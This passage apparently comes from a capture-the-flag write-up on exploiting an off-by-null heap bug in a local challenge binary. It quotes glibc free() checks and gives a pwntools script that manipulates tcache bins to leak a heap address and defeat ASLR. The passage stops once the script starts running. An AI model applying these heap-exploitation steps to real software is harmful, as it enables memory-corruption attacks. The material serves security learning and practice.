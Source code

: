 It may be interesting to consider that doing this with a chunk with size 0x20 wouldn't be a problem at all... with a string of one character the program would make `malloc(1)`, which would give a chunk of size 0x20, so we'd just overwrite the least significant byte of the address. We have one little problem, 0x20 isn't multiple of 0x100, and we can only turn chunks' sizes into multiples of 0x100 (because this is an off-by-null, not any off-by-one). Heck, we could convert a chunk with size below 0x100 into one with size 0x00, but that isn't a good idea because `free()` does this checks before considering the tcache:
```c
    /* Little security check which won't hurt performance: the
       allocator never wrapps around at the end of the address space.
       Therefore we can exclude some size values which might appear
       here by accident or by "design" from some intruder.  */
    if (__builtin_expect ((uintptr_t) p > (uintptr_t) -size, 0)
        || __builtin_expect (misaligned_chunk (p), 0))
        malloc_printerr ("free(): invalid pointer");
    /* We know that each chunk is at least MINSIZE bytes in size or a
       multiple of MALLOC_ALIGNMENT.  */
    if (__glibc_unlikely (size < MINSIZE || !aligned_OK (size)))
        malloc_printerr ("free(): invalid size");
```
So close and yet too far, like her hand.... If only I could extend mine and reach it.

## When did I say that? (or leaking a heap address)
Wait, hang on a second. The `while` loop copies only the bytes just `read()`, but the allocation is performed with `strlen()` and, if we don't want to, there won't be any nullbyte placed in the stack buffer. So we can send first a 0xf8 sized string, which will just sit in the buffer. This will allocate the chunk and overwrite it, yes, but nothing will change heap-wise taking into account that it will be freed right away and placed again in the tcache, linked again to the other chunk. Now we can simply send one non-null byte, `strlen()` will pick the whole string (the one with length 0xf8 that is already in the buffer), but the `while` loop will only copy one byte, so we will lose only one byte, the least significant one, which in fact doesn't hold any information about ASLR.

Before I show you the script let me point out that we're gonna have to `sleep()` between writes to prevent them from mixing together. We could `read()` each response (and make this a much more civilized conversation with both programs really in sync), but that would mean to determine how much will the program print for every request... And since the program doesn't prompt actively for data we can't use `readuntil()`.
```python
from pwn import *

r = process("./binary")
deltat = .05

# Allocate 0x100 chunk (placed in 0x100 bin).
r.write(b"A" * (0x100 - 8)); sleep(deltat)
# Allocate 0x1f0 chunk (placed in 0x1f0 bin).
r.write(b"A" * (0x1f0 - 8)); sleep(deltat)
# Allocate 0x100 chunk again and overflow into the 0x1f0 one, change its size
# from 0x1f0 to 0x100. The 0x100 will be placed back into the 0x100 bin.
r.write(b"A" * (0x100 - 8 - 1) + b'\n' + b'\0'); sleep(deltat)
# Allocate 0x1f0 chunk again, when freed will be placed in _0x100_ tcache bin.
r.write(b"A" * (0x1f0 - 8)); sleep(deltat)
# Fill stack buffer with a 0x100-8 = 0xf8 sized string.
# This will allocate and free the 0x1f0 chunk, but will be placed
# back into the 0x100 tcache bin, changing nothing heap-wise.
r.write(b"A" * (0x100 - 8) + b'\0'); sleep(deltat) # Pre-fill stack buffer
r.write(b"A") # Write only one byte and leak!
leak = int.from_bytes(r.read()[-6:], "little")
print("Leak: 0x%x" % leak)
```
This will do the trick and earn us a heap address:
```
$ python x.py
[+] Starting local process './binary': pid 14053
```